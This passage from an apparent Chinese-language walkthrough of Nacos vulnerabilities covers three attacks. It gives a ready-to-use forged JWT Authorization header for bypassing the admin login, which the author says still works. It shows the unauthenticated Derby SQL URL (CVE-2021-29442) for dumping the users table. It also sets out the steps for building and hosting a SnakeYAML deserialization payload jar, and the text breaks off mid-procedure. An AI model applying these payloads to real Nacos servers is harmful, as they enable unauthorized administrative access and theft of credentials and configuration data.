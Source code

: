 **直接登录到后台**  
：  
  
登陆界面输入任意账户密码 ，点击登录。抓包，添加请求头,我这个还能用。  
> Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MzQ4MTM1NzA1NX0.92Mo2gkDFuPnUaD2v63SQl1IWtObfBxDTWgIhqvteM8  
  
  
添加之后点击放行不要关闭拦截  
  
![1745677817_680cedf94dbba1a1d2a20.png!small?1745677818748](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaMXbtQLmYYe1Rd82YNP7hJXF5IAbuIFXeia7RDicoqw3YpAnzvkZh9C5A/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![1745677843_680cee13962967d8cd090.png!small?1745677844715](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiar7D3vLJXiaxluSP47QmRv4wKI0h0MSoiacDD2JMwScQmeBsX0oCw7PBQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
之后关闭拦截即可  
### 6.Derby未授权访问（CVE-2021-29442）  
  
nacos带有一个嵌入式的小型数据库derby，默认无需认证即可被访问，并执行任意sql查询，导致敏感信息泄露。  
  
影响版本：在nacos <= 1.4.0，无论是否开启鉴权，该漏洞都存在。当 nacos >1.4.0， 在新版中默认没开鉴权，所有这个漏洞还存在。若开启了鉴权，版本大于1.4.0，则漏洞不存在。  
> /nacos/v1/cs/ops/derby?sql=select * from users  
  
  
![1745677914_680cee5aebd72b48a7c0d.png!small?1745677916250](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaiayodU5H99dibicZwko8XJEic69z5XONVOEx7a1VYyqguPop7mbCc1TLuw/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
### 7.Nacos Client Yaml反序列化漏洞  
  
这个我没复现出来，网上找了几个但是都没有。。。。  
  
在1.4.1版本中存在Nacos Client Yaml反序列化漏洞，该漏洞只影响单独使用 nacos-client SDK的用户，原因在于spring cloud、springboot、dubbo等框架中并非使用的 AbstractConfigChangeListener 监听配置，所以该漏洞只影响了使用AbstractConfigChangeListener监听配置的客户端。  
  
具体思路是  
#### nacosYaml反序列化攻击  
  
工具利用  
  
https://github.com/artsploit/yaml-payload/  
  
下载之后打成jar包  
> javac src/artsploit/AwesomeScriptEngineFactory.java  
> 编译java文件  
> jar -cvf yaml-payload.jar -C src/ .  
> jar：Java 自带的归档工具（类似 tar 或 zip），用于创建、查看或解压 JAR 文件。  
  
-c（create）：创建一个新的 JAR 文件。  
  
-v（verbose）：显示详细输出（打包的文件列表）。  
  
-f（file）：指定生成的 JAR 文件名（这里是 yaml-payload.jar）。  
  
-C src/：切换到 src/ 目录（相当于 cd src/）。  
>   
  
  
![1745678441_680cf06949f4a11a3512b.png!small](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia7M3VDcjGfPuSeasntrxnP8y4Rj9WqJt0AswdZiaHzqh38xTMUKhm5Zw/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
将生成的jar文件传到服务器上，到指定目录，开启web服务  
  